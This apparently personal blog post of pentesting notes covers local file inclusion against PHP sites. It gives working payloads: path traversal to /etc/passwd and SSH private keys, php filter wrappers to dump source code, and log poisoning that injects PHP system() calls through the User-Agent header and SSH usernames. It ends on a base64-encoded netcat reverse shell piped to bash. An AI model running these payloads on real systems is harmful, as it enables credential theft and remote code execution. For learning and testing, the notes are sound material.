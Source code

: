 ```yaml
---
layout: post
title: 'Notes | LFI'
date: 2022-04-23
permalink: /notes/web/lfi/
---
```


# [](#header-4)Local file inclusion
**LFI** is the process to include files locate in the server through the exploiting of vulnerable inclusion.
For example:
{% highlight plain %}
http://localhost/example.php?file=../../../../../../../etc/passwd
{% endhighlight %}

With the terminal we can check easily:
{% highlight plain %}
> curl -s "http://localhost/example.php?file=/etc/passwd"
{% endhighlight %}
##### **-s**: no verbose

We can check some important files:
- **/home/user/.ssh/id_rsa ->** check credentials for a ssh connection, with **ssh2john** we can break any ssh password if its weak or we have it in a dictionary.
- **/proc/sched_debug ->**  show many running scripts
- **/proc/net/fib_trie ->** check network interfaces (with *grep -i  "host local" -B 1* we can get local ip).
- **/proc/net/tcp ->** check port. The last four digits from the second column (rem_address), if we add a **0x** in Python before we can get the port (its common to not get ports like 80 here).

## Directory Path Traversal
If the web is sanitaze with only one path allowed, we can move using **../**:
{% highlight plain %}
> curl -s "http://localhost/example.php?file=../../../../../../../etc/passwd"
{% endhighlight %}

The web can set and extension to the end of the path, we can escape than with: **%00** at the end of the search.

## Wrappers
Help to escape LFI sanitazer. For example:
- **?file=file:///etc/passwd ->** get the file.
- **?file=php:///filter/convert.base64-encode/resource=file.php ->** give all the content file (including comments) in base64 (useful to get the whole source code).

## Log Poisoning
Change logs in order to recreate a RCE.

#### Apache2
In **/var/log/apache2/access.log** we can manipulate the user agent that the log is currently saving in the logs with curl. For example:
{% highlight plain %}
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/apache2/access.log"
{% endhighlight %}
Now we can execute code in the system.

Another example is the **/var/log/auth.log**. We can try to log in by ssh with and invalid user and see that all the trys are been saving in the log.
If we log as a command, execute the log (loading with curl or in the web with LFI) we can execute the command and get a **reverse shell**:
- First we encode the connection (with netcat).
{% highlight plain %}
> echo 'nc -e /bin/bash 127.0.0.1:443' | base64; echo
  bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK
{% endhighlight %}
- Then we send this "user" to the log:
{% highlight plain %}
> ssh '<¿php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK | base64 -d | bash"); ?>'@127.0.0.1 
{% endhighlight %}
Then we will try to log in with any password. Now we just need to reload the log in the web, then the code is executed.
{% highlight plain %}
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/auth.log"
{% endhighlight %}


## Remote File Inclusion (RFI)
Load files into the server.
